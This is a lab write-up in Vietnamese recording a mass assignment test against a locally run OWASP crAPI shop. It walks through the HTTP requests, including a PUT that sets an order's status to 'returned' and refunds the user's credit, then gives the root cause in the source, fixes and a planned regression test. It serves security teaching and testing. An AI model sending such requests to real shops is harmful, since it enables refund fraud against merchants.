










# LAB-04 — Mass Assignment: Thay đổi trạng thái đơn hàng để hoàn tiền

- **Người thực hiện:** Viễn
- **Đối tượng:** OWASP crAPI trên local
- **Ngày thể hiện trên bằng chứng:** 18/11/2026
- **Trạng thái:** TC-01 đã được kiểm chứng thủ công qua ảnh và HTTP responses; TC-02…TC-06 chưa có bằng chứng.

## 1. Mục tiêu và phạm vi

- **OWASP API Security:** API3:2023 — Broken Object Property Level Authorization (dạng Mass Assignment; tương ứng API6:2019).
- **crAPI Challenge:** #8 — Get an item for free.
- **Mục tiêu:** Kiểm tra liệu người dùng có thể trực tiếp sửa thuộc tính `status` của order thành `returned`, khiến số dư được hoàn khi chưa có bước xác minh trả hàng.
- **Giới hạn:** Một order thuộc chính tài khoản giả trên crAPI local; chưa kiểm thử dữ liệu người khác, hoàn tiền lặp lại hay hệ thống đã vá.

## 2. Lý thuyết

Mass Assignment xảy ra khi API chấp nhận các thuộc tính do client gửi và cho phép sửa những trường vốn chỉ backend được quản lý. Với nghiệp vụ bán hàng, người dùng được tạo yêu cầu mua/trả hàng, nhưng không được tự quyết định đơn hàng đã được xác minh hoàn trả.

Trong OWASP API Security Top 10:2023, việc thiếu kiểm tra quyền trên từng thuộc tính đối tượng thuộc nhóm **API3 — Broken Object Property Level Authorization**. Một giá trị hợp lệ theo enum (như `returned`) không có nghĩa người dùng có quyền thiết lập nó.

Tác động có thể bao gồm mất tính toàn vẹn đơn hàng, sai lệch số dư và gian lận hoàn tiền.

## 3. Môi trường thực nghiệm

| Thành phần | Kết quả quan sát |
|---|---|
| Ứng dụng | OWASP crAPI |
| URL | `http://127.0.0.1:8888` |
| Công cụ | Burp Suite Community Edition `v2026.11.1` |
| Chức năng | Shop / Past Orders; Proxy / Repeater |
| Tài khoản | Tài khoản thử nghiệm của người thực hiện (không ghi credentials) |
| crAPI commit | **Chưa ghi nhận** — cần bổ sung kết quả `bash scripts/crapi.sh revision` |
| Dữ liệu | Order `15`, sản phẩm Wheel (`product_id = 2`), đơn giá `10.00` |

Số dư hiển thị trên trang Shop trước khi mua là **`100.0`**.

## 4. Khảo sát chức năng bình thường

### 4.1. Tạo đơn hàng hợp lệ

Tại Shop, người thực hiện mua một Wheel với số lượng `1`. Burp Proxy ghi nhận:

```http
POST /workshop/api/shop/orders HTTP/1.1
Host: 127.0.0.1:8888
Authorization: Bearer <REDACTED>
Content-Type: application/json
```

```json
{
  "product_id": 2,
  "quantity": 1
}
```

Phản hồi thực tế: **`HTTP 200 OK`**.

```json
{
  "id": 15,
  "message": "Order sent successfully.",
  "credit": 90.0
}
```

Sau khi mua hàng trị giá `10.00`, số dư giảm từ `100.0` xuống **`90.0`**.

### 4.2. Xác minh điều kiện ban đầu qua GET độc lập

Trong Repeater, người thực hiện gửi:

```http
GET /workshop/api/shop/products?limit=30&offset=0
GET /workshop/api/shop/orders/all?limit=30&offset=0
```

Trường quan trọng từ hai response (được trích riêng):

```json
{ "credit": 90.0 }
```

```json
{
  "orders": [
    {
      "id": 15,
      "product": { "id": 2, "name": "Wheel", "price": "10.00" },
      "quantity": 1,
      "status": "delivered"
    }
  ]
}
```

### 4.3. Quy trình trả hàng hợp lệ trong mã nguồn

Upstream có endpoint `POST /workshop/api/shop/orders/return_order?order_id={id}` để đưa đơn về trạng thái `return pending`. Một hệ thống an toàn cần xác minh việc trả hàng trước khi chuyển sang `returned` và cộng tiền.

**Chưa có ảnh thực nghiệm riêng của endpoint `return_order`** trong tệp Excalidraw; mô tả này được đối chiếu từ mã nguồn, không phải quan sát thực tế.

## 5. Phương pháp kiểm thử — TC-01

### Bước 1 — Ghi nhận số dư và mua hàng

- Trên giao diện Shop: **Available Balance = `$100`**; Wheel có giá **`$10`**.
- Nhấn Buy Wheel, số lượng `1`.
- Giao diện thông báo thành công, số dư còn **`$90`**.
- HTTP response POST xác nhận tạo order `15`, `credit = 90.0`.

**Mục đích:** Có một order hợp lệ do chính tài khoản thử nghiệm sở hữu và biết chính xác giá trị đã trả.

**Ảnh 01 — Giao diện Shop, số dư trước khi mua**



**Ảnh 02 — Thông báo mua thành công và số dư 90**



**Ảnh 03 — Order Details của sản phẩm Wheel**



**Ảnh 04 — Burp Proxy ghi nhận request POST tạo đơn hàng**



**Ảnh 05 — HTTP 200, ID đơn 15 và số dư 90**



### Bước 2 — Xác minh dữ liệu trước kiểm thử

- `GET /workshop/api/shop/products`: `credit = 90.0`.
- `GET /workshop/api/shop/orders/all`: order `15` có `quantity = 1`, `status = "delivered"`.

**Mục đích:** Thiết lập baseline độc lập, tránh chỉ tin vào thông báo UI.

**Ảnh 06 — GET products trước PUT: `credit = 90.0`**



**Ảnh 07 — GET orders trước PUT: `status = delivered`**



### Bước 3 — Thay đổi thuộc tính server quản lý

Trong Burp Repeater, gửi đến đúng crAPI local:

```http
PUT /workshop/api/shop/orders/15 HTTP/1.1
Host: 127.0.0.1:8888
Authorization: Bearer <REDACTED>
Content-Type: application/json
```

```json
{
  "status": "returned"
}
```

Điểm bất thường cần kiểm tra: client không cung cấp bằng chứng đã trả hàng mà trực tiếp yêu cầu cập nhật trạng thái hoàn trả.

**Ảnh 08 — Repeater: PUT đổi `status` và response 200**



### Bước 4 — Quan sát response PUT

Burp Repeater ghi nhận **`HTTP 200 OK`**. Trích trường liên quan từ response:

```json
{
  "orders": {
    "id": 15,
    "product": { "id": 2, "name": "Wheel", "price": "10.00" },
    "quantity": 1,
    "status": "returned"
  }
}
```

**Mục đích:** Xác nhận server chấp nhận và báo trạng thái mới. Tuy nhiên, response PUT một mình chưa chứng minh số dư thực sự thay đổi.

### Bước 5 — Đọc lại số dư từ API

Gửi lại:

```http
GET /workshop/api/shop/products?limit=30&offset=0
```

Response **`HTTP 200 OK`**, trường `credit` bằng **`100.0`**. Số dư tăng **`10.0`** so với ngay trước PUT.

**Ảnh 09 — GET products sau PUT: `credit = 100.0`**



### Bước 6 — Đọc lại trạng thái từ API

Gửi lại:

```http
GET /workshop/api/shop/orders/all?limit=30&offset=0
```

Response **`HTTP 200 OK`**, order `15` có `quantity = 1` và `status = "returned"`.

**Ảnh 10 — GET orders sau PUT: `status = returned`**



### Bước 7 — Đối chiếu kết quả

| Trường | Trước PUT | Sau PUT | Diễn giải |
|---|---|---|---|
| Order ID | `15` | `15` | Cùng một order |
| Product | Wheel | Wheel | Không đổi |
| Quantity | `1` | `1` | Không đổi |
| Status | `delivered` | `returned` | Đã đổi theo giá trị client gửi |
| Credit | `90.0` | `100.0` | Tăng `10.0` |
| HTTP PUT | — | `200 OK` | Request được chấp nhận |

**Kết luận từ ảnh:** Hành vi ghi nhận phù hợp với lỗ hổng sửa thuộc tính `status` và phát sinh hoàn tiền. Chuỗi ảnh không ghi nhận request xác minh trả hàng khác; để khẳng định đầy đủ việc bỏ qua luồng hợp lệ, người thực hiện cần xác nhận không thực hiện Return Order/xác minh trả hàng giữa các mốc trên.

## 6. Bằng chứng

### 6.1. Đối chiếu các ảnh trong `mass-assignment.excalidraw`

| Ảnh nguồn | Nội dung |
|---|---|
| 01 | Shop trước mua: credit `$100` |
| 02 | Mua thành công: credit `$90` |
| 03 | Order Details: Wheel, giá `$10`, quantity `1` |
| 04 | Proxy: request POST tạo order |
| 05 | Proxy: HTTP 200, order `15`, credit `90.0` |
| 06 | Repeater: GET products trước PUT, credit `90.0` |
| 07 | Repeater: GET orders trước PUT, `delivered` |
| 08 | Repeater: PUT `status=returned`, response 200 `returned` |
| 09 | Repeater: GET products sau PUT, credit `100.0` |
| 10 | Repeater: GET orders sau PUT, `returned` |

### 6.2. Các file ảnh cần đưa vào GitHub sau khi làm sạch

```text
evidence/
  TC-01-01-shop-before.png
  TC-01-02-order-created.png
  TC-01-03-order-before.png
  TC-01-04-put-request-response.png
  TC-01-05-credit-after.png
  TC-01-06-order-after.png
```

**Trong bản nội bộ này**, toàn bộ ảnh gốc đã được lưu tại `evidence/01-...png` đến `evidence/10-...png` và hiển thị ở đúng bước thực nghiệm. Danh sách `TC-01-...png` phía trên là quy ước cho **bản sẽ công khai trên GitHub sau khi làm sạch**; không được commit trực tiếp bộ ảnh gốc vì còn Bearer token/session cookie.

## 7. Phân tích nguyên nhân

**Đối chiếu mã nguồn upstream** (`services/workshop/crapi/shop/views.py`, `OrderControlView.put()`):

1. Backend có kiểm tra order thuộc về người dùng hiện tại. TC-01 vì vậy **không phải** thử truy cập order của người khác (BOLA).
2. Backend lấy thuộc tính `status` từ request body; việc kiểm tra enum chỉ bảo đảm giá trị nằm trong danh sách trạng thái cho phép, **không kiểm tra quyền chuyển sang trạng thái đó**.
3. Khi `status` chuyển sang `returned`, backend cộng `order.quantity × order.product.price` vào số dư.
4. Client vì thế có thể tác động đến trạng thái hoàn tiền đáng lẽ phải do một quy trình xác minh phía server quyết định.

**Phạm vi đã chứng minh:** Với một order thuộc tài khoản thử nghiệm, trường `status` chuyển từ `delivered` sang `returned` và số dư tăng từ `90.0` lên `100.0`.

**Chưa chứng minh:** hoàn tiền lặp lại, sửa order của người khác, race condition, hành vi trên một phiên bản crAPI khác hoặc kết quả sau vá.

## 8. Biện pháp khắc phục

1. **Allowlist/DTO:** Không cho client sửa `status` và các trường thanh toán nội bộ qua endpoint cập nhật đơn hàng thông thường.
2. **Authorization theo thuộc tính:** Kiểm tra quyền thực hiện *từng loại thay đổi*, không chỉ quyền sở hữu order.
3. **State machine phía server:** `returned` chỉ được gán sau khi xác minh bước trả hàng bởi bên có thẩm quyền.
4. **Validation nghiệp vụ:** Không hoàn quá số đã thanh toán; dựa vào giao dịch gốc, không dựa vào quantity vừa được client sửa.
5. **Idempotency:** Có định danh duy nhất cho giao dịch refund và bảo đảm cập nhật số dư nguyên tử để không hoàn tiền nhiều lần.

**Retest sau khi vá:** PUT trực tiếp `{"status":"returned"}` phải bị từ chối hoặc không làm đổi trạng thái/số dư; workflow trả hàng hợp lệ vẫn hoạt động theo quyền và điều kiện nghiệp vụ.

**Chưa có bản vá hoặc kết quả retest** trong bộ bằng chứng hiện tại.

## 9. Automated security test

- **File được phân công:** `tests/security/test_mass_assignment.py`.
- **Trạng thái hiện tại:** Test LAB-04 vẫn là scaffold `@pytest.mark.skip`/`NotImplementedError`, chưa có automated security test chạy thật.
- **Dự kiến:** Tạo order mới, đọc `status`/`credit` ban đầu qua GET, thử PUT sửa trường bảo vệ, đọc lại GET và assert cả trạng thái lẫn số dư vẫn bất biến khi chưa có xác minh trả hàng.
- **Trên target cố ý có lỗ hổng:** Security regression test có thể **FAIL** khi phát hiện hành vi trái quy tắc.
- **Phân biệt:** `FAIL` do thiếu bảo vệ khác `FAIL` do mạng/login/schema; `SKIP` không phải bằng chứng PASS.
- **Kết quả Pytest thực tế:** **CHƯA CHẠY**.

## 10. Kết luận và tham khảo

### Kết luận TC-01

Bằng chứng thủ công cho thấy `PUT /workshop/api/shop/orders/15` với body `{"status":"returned"}` trả `200 OK`. Hai GET độc lập xác nhận order từ `delivered` thành `returned` và số dư tăng đúng `10.0` (`90.0 → 100.0`). Đây là bằng chứng mạnh của **Mass Assignment / Broken Object Property Level Authorization** đối với trạng thái order.

Để bàn giao Issue #13 còn cần ghi crAPI commit SHA, thêm ảnh đã làm sạch, xác nhận rõ không có bước Return Order hợp lệ trong chuỗi TC-01, viết automated test và được thành viên khác review/tái hiện.

### Tài liệu tham khảo (đối chiếu 18/11/2026)

1. [OWASP API3:2023 — Broken Object Property Level Authorization](https://api-security.owasp.org/editions/2023/en/0xa3-broken-object-property-level-authorization/).
2. [OWASP crAPI — Challenge 8](https://github.com/OWASP/crAPI/blob/develop/docs/challenges.md#challenge-8---get-an-item-for-free).
3. [OWASP crAPI — Shop views](https://github.com/OWASP/crAPI/blob/main/services/workshop/crapi/shop/views.py).
4. [OWASP crAPI — Shop URL routing](https://github.com/OWASP/crAPI/blob/main/services/workshop/crapi/shop/urls.py).
5. [OWASP crAPI — Order model/status](https://github.com/OWASP/crAPI/blob/main/services/workshop/crapi/shop/models.py).

*Commit crAPI đang chạy trên máy người thực hiện chưa được ghi nhận.*
